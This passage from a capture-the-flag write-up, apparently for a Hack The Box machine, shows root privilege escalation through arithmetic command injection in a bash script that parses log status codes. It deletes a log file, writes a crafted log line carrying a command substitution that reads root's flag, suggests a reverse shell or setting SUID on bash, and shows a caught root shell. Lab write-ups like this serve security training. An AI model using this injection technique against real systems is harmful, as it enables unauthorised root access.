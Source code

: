 ```bash
                break
            fi
        done
    done < <(grep "HTTP.*Status: " "$LOG_FILE")
}
```

According to [Vidar's blog](https://www.vidarholen.net/contents/blog/?p=716) it is possible to execute code with the `-eq` comparison.

Looking at the directory permissions `www-data` and `developers` have access, if we check our groups we're in the `developers` group.

```shell
miranda-wise@eureka:/var/www/web/cloud-gateway/log$ ls -la
total 48
drwxrwxr-x 2 www-data developers  4096 Apr 27 05:34 .
drwxrwxr-x 6 www-data developers  4096 Mar 18 21:17 ..
-rw-r--r-- 1 www-data www-data   29197 Apr 27 12:09 application.log
-rw-rw-r-- 1 www-data www-data    5702 Apr 23 07:37 application.log.2025-04-22.0.gz
miranda-wise@eureka:/var/www/web/cloud-gateway/log$ id
uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)
```

So let's remove `application.log`.

```bash
rm application.log
```

And let's write a malicious status code with code execution.

```bash
echo '2025-04-09T11:27:02.286Z  INFO 1234 --- [app-gateway] [reactor-http-epoll-3] c.eureka.gateway.Config.LoggingFilter    : HTTP POST /login - Status: a[$(cat /root/root.txt >> /tmp/w1ld.txt)]+0' > application.log
```

We can see that after a little wait it executed the command!

```bash
ls -lash /tmp/w1ld.txt
4.0K -rw-r--r-- 1 root root 264 Apr 27 12:28 /tmp/w1ld.txt
```

To get a root shell we must simply replace the `cat` command in the `log` with a rev shell or set the SUID bit of `/bin/bash`. etc.

```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.235.146.
Ncat: Connection from 10.129.235.146:44162.
bash: cannot set terminal process group (545914): Inappropriate ioctl for device
bash: no job control in this shell
root@eureka:~#
```
